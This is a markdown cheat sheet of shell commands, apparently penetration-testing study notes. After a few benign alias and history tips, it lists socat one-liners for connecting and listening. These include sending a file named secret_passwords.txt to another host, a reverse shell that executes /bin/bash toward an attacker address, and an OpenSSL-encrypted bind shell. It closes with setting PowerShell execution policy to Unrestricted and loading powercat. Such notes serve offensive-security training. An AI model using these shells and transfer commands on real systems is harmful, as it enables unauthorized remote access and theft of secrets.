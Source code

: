### Alias and unalias
```
alias lsa="ls -lah"
unalias lsa
```

### History in date format
```
export HISTTIMEFORMAT='%F %T '
```

### Socat

#### Socat to connect to remote host
`socat - TCP4:<remote server's ip address>:80`

#### Socat in listening mode
`socat TCP4-LISTEN:443 STDOUT`

#### Socat file transfert
```
socat TCP4-LISTEN:443,fork file:secret_passwords.txt
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

#### Socat Reverse Shells
```
socat -d -d TCP4-LISTEN:443 STDOUT  #(-d -d is to increase verbosity)

socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

#### Socat Encrypted Bind Shells
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

cat bind_shell.key bind_shell.crt > bind_shell.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

socat - OPENSSL:10.11.0.4:443,verify=0
```

#### Socat local port forwarding
```
socat TCP-LISTEN:80,fork TCP:202.54.1.5:80

#This redirect all 80 connection to 202.54.1.5 80
```

### Powercat Send file 

#### Load powercat (dot sorcing )
```
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted

. .\powercat.ps1

```
